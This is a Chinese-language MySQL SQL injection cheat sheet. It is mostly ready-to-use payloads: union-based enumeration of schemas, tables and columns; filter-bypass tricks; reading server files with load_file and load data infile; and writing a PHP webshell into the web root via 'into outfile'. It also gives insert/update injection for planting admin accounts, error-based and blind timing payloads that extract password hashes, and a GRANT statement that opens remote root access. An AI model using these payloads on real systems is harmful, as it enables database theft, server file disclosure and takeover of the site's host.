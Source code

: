 **0x00 mysql一般注入(select)**

1. 注释符
`#`  
`/*`
`—`

2. 过滤空格注入
使用/**/或()或+代替空格
%0c = form feed, new page  
%09 = horizontal tab  
%0d = carriage return  
%0a = line feed, new line

3. 多条数据显示
concat()  
group_concat()  
concat_ws()

4. 相关函数
system_user() 系统用户名  
user() 用户名  
current_user 当前用户名  
session_user()连接数据库的用户名  
database() 数据库名  
version() MYSQL数据库版本  
load_file() MYSQL读取本地文件的函数  
@@datadir 读取数据库路径  
@@basedir MYSQL 安装路径  
@@version_compile_os 操作系统 Windows Server 2003
GRANT ALL PRIVILEGES ON *.* TO ‘root’@’%’ IDENTIFIED BY ‘123456’ WITH GRANT OPTION;

5. mysql一般注入语句
猜字段数
order by n/*  
查看mysql基本信息  
and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/*  
查询数据库  
and 1=2 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1/*  
and 1=2 union select 1,group_concat(schema_name),3,4 from information_schema.schemata/*  
查询表名  
and 1=2 union select 1,2,3,4,table_name,5 from information_schema.tables where table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(table_name),5 from information_schema.tables where table_schema=数据库的16进制编码/*  
查询字段  
and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(column_name),5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码/*  
查询数据  
and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
判断是否具有读写权限  
and (select count(*) from mysql.user)>0/*  
and (select count(file_priv) from mysql.user)>0/*

6. mysql读取写入文件
必备条件：
读：file权限必备
写：1.绝对路径 2.union使用 3. 可以使用”
————————-读———————-
mysql3.x读取方法  
create table a(cmd text);  
load data infile ‘c:\\xxx\\xxx\\xxx.txt’ into table a;  
select * from a;
mysql4.x读取方法  
除上述方法还可以使用load_file()  
create table a(cmd text);  
insert into a(cmd) values(load_file(‘c:\\ddd\\ddd\\ddd.txt’));  
select * from a;
mysql5.x读取方法  
上述两种都可以
读取文件技巧：  
load_file(char(32,26,56,66))  
load_file(0x633A5C626F6F742E696E69)
————写————————–
into outfile写文件
union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*  
union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*

**0x01 mysql一般注入(insert、update)**

mysql一般请求mysql_query不支持多语句执行，mysqli可以。

insert注入多使用报错注入!

1.如果可以直接插入管理员可以直接使用!

insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);

2.如果可以插入一些数据，这些数据会在网页中显示，我们可以结合xxs和csrf来获取cookies或getshell

update注入同上

**0x02 mysql报错注入**

1. and(select 1 from(select count(*),concat((select (select (语句)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1

语句处填入一般一句，如：SELECT distinct concat(0x7e,0x27,schema_name,0x27,0x7e) FROM information_schema.schemata LIMIT 0,1

2. and+1=(select+*+from+(select+NAME_CONST((语句),1),NAME_CONST((语句),1))+as+x)–

3.update web_ids set host=’www.0x50sec.org’ where id =1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b);

4.insert into web_ids(host) values((select (1) from mysql.user where 1=1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b)));  
**  
0x03 mysql一般盲注**

使用ascii

AND ascii(substring((SELECT password FROM users where id=1),1,1))=49

使用正则表达式

and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA=”blind_sqli” AND table_name REGEXP ‘^[a-n]’ LIMIT 0,1)

**0x04 mysql时间盲注**

1170 union select if(substring(current,1,1)=char(11),benchmark(5000000,encode(‘msg’,’by 5 seconds’)),null) from (select database() as current) as tbl

UNION SELECT IF(SUBSTRING(Password,1,1)=’a’,BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ0NjIyNTMwNF19
-->